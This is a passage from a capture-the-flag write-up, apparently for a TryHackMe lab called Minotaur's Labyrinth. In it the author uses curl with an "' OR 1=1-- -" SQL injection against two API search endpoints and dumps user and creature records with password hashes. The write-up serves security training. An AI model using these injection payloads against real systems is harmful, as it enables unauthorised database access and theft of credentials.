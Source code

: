 Looks like the database has a field called `passwordPeople` and `passwordCreature`.

Also, we can see the API is being exposed, which means **we can send requests to the API**:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople="

		[[]]
```

Hmm... What if there is a **SQL Injection** vulnerability?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' OR 1=1-- -"

		[[{"idPeople":"1","namePeople":"Eurycliedes","passwordPeople":"42354020b68c7ed28dcdeabd5a2baf8e"},{"idPeople":"2","namePeople":"Menekrates","passwordPeople":"0b3bebe266a81fbfaa79db1604c4e67f"},{"idPeople":"3","namePeople":"Philostratos","passwordPeople":"b83f966a6f5a9cff9c6e1c52b0aa635b"},{"idPeople":"4","namePeople":"Daedalus","passwordPeople":"b8e4c23686a3a12476ad7779e35f5eb6"},{"idPeople":"5","namePeople":"M!n0taur","passwordPeople":"1765db9457f496a39859209ee81fbda4"}]] 
```

Nice!

How about `creatures` table?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/creatures/search -d "nameCreature=' OR 1=1-- -"
		
		[[{"idCreature":"1","nameCreature":"Cerberos","passwordCreature":"3898e56bf6fa6ddfc3c0977c514a65a8"},{"idCreature":"2","nameCreature":"Pegasus","passwordCreature":"5d20441c392b68c61592b2159990abfe"},{"idCreature":"3","nameCreature":"Chiron","passwordCreature":"f847149233ae29ec0e1fcf052930c044"},{"idCreature":"4","nameCreature":"Centaurus","passwordCreature":"ea5540126c33fe653bf56e7a686b1770"}]]
```

**Table `people`:**
```json
[
    {
        "idPeople": "1",
        "namePeople": "Eurycliedes",
        "passwordPeople": "42354020b68c7ed28dcdeabd5a2baf8e"
    },
    {
        "idPeople": "2",
        "namePeople": "Menekrates",
        "passwordPeople": "0b3bebe266a81fbfaa79db1604c4e67f"
    },
    {
        "idPeople": "3",
        "namePeople": "Philostratos",
        "passwordPeople": "b83f966a6f5a9cff9c6e1c52b0aa635b"
    },
    {
        "idPeople": "4",
        "namePeople": "Daedalus",
        "passwordPeople": "b8e4c23686a3a12476ad7779e35f5eb6"
    },
    {
        "idPeople": "5",
        "namePeople": "M!n0taur",
        "passwordPeople": "1765db9457f496a39859209ee81fbda4"
    }
]
```